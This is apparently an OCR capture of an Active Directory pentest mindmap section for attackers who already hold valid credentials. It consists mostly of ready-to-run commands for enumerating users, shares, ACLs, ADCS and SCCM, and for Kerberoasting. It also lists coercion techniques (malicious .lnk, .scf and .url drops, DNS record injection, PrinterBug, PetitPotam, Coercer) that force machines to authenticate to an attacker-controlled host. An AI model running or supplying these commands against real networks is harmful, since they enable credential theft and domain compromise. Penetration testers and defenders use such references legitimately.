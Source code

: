 # Valid Credentials (cleartext creds, nt hash, kerberos ticket)

## Classic Enumeration (users, shares, ACL, delegation, ...)

- Find all users >>> Username
  - `GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>`
  - `nxc smb <dc_ip> -u '<user>' -p '<password>' --users`
- Enumerate SMB share >>> Scroll shares
  - `nxc smb <ip_range> -u '<user>' -p '<password>' -M spider_plus`
  - `nxc smb <ip_range> -u '<user>' -p '<password>' --shares [--get-file \\<filename> <filename>] `
  - `manspider <ip_range> -c passw -e <file extensions> -d <domain> -u <user> -p <password>`
- Bloodhound Legacy >>> ACL || Delegation || Username
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z`
  - `import-module sharphound.ps1;invoke-bloodhound -collectionmethod all -domain <domain>`
  - `sharphound.exe -c all -d <domain>`
- Bloodhound CE >>> ACL || Delegation || Username
  - `bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all`
  - `rusthound-ce -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile.zip> -z --ldap-filter=(objectGuid=*)`
  - `sharphound.exe -c all -d <domain>`
  - `SOAPHound.exe -c c:\temp\cache.txt --bhdump -o c:\temp\bloodhound-output --autosplit --threshold 900`
- Enumerate Ldap >>> ACL || Delegation || Username
  - `ldeep ldap -u <users> -p '<password>' -d <domain> -s ldap://<dc_ip> all <backup_folder>`
  - `ldapdomaindump.py -u <user> -p <password> -o <dump_folder> ldap://<dc_ip>:389`
  - `ldapsearch-ad.py -l <dc_ip> -d <domain> -u <user> -p '<password>' -o <output.log> -t all`
- Enumerate DNS >>> New targets (low hanging fruit)
  - `adidnsdump -u <domain>\\<user> -p "<password>" --print-zones <dc_ip>`

## Enumerate ADCS >>> ADCS Exploitation
- `certify.exe find`
- `certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc_ip>`

## Enumerate SCCM >>> SCCM Exploitation
- `sccmhunter.py find -u <user> -p <password> -d <domain> -dc-ip <dc_ip> -debug`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> sccm`
- `SharpSCCM.exe local site-info`

## Scan Auto
- from BH result
  - `AD-miner -c -cf Report -u <neo4j_username> -p <neo4j_password>`
- `PingCastle.exe --healthcheck --server <domain>`
- `Import-Module .\adPEAS.ps1; Invoke-adPEAS -Domain '<domain>' -Server '<dc_fqdn>'`

## Kerberoasting >>> Hash TGS
- `MATCH (u:User) WHERE u.hasspn=true AND u.enabled = true AND NOT u.objectid ENDS WITH '-502' AND NOT COALESCE(u.gmsa, false) = true AND NOT COALESCE(u.msa, false) = true RETURN u`
- `GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>`
- `Rubeus.exe kerberoast`

## Coerce
- Drop file
  - .lnk
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M slinky -o NAME=<filename> SERVER=<attacker_ip>`
  - .scf
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M sucffy -o NAME=<filename> SERVER=<attacker_ip>`
  - .url
    - `[InternetShortcut]... IconFile=\\<attacker_ip>\%USERNAME%.icon`
  - Other files
    - `ntlm_theft.py -g all -s <your_ip> -f test`
- Webdav
  - Enable webclient
    - .searchConnector-ms
      - `nxc smb <dc_ip> -u '<user>' -p '<password>' -M drop-sc`
  - add attack computer in dns
    - `dnstool.py -u <domain>\<user> -p <pass> --record <attack_name> --action add --data <ip_attacker> <dc_ip>`
  - Launch coerce with <attacker_hostname>@80/x as target >>> HTTP Coerce
- RPC call >>> SMB NTLM Coerce
  - `printerbug.py <domain>/<username>:<password>@<printer_ip> <listener_ip>`
  - `petitpotam.py -d <domain> -u <user> -p <password> <listnerer_ip> <target_ip>`
  - `coercer.py -d <domain> -u <user> -p <password> -t <target> -l <attacker_ip>`
- Coerce kerberos >>> SMB Kerberos coerce
  - `dnstool.py -u "<domain>\<user>" -p '<password>' -d "<attacker_ip>" --action add "<dns_server_ip>" -r "<servername>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp`
    - `petitpotam.py -u '<user>' -p '<password>' -d <domain> '<servername>1UWh...' <target>`

## Intra ID Connect
- Find MSOL
  - `nxc ldap <dc_ip> -u '<user>' -p '<password>' -M get-desc-users |grep -i MSOL`

## Can Connect to a computer >>> Lateral move

## Exploit >>> know vulnerabilities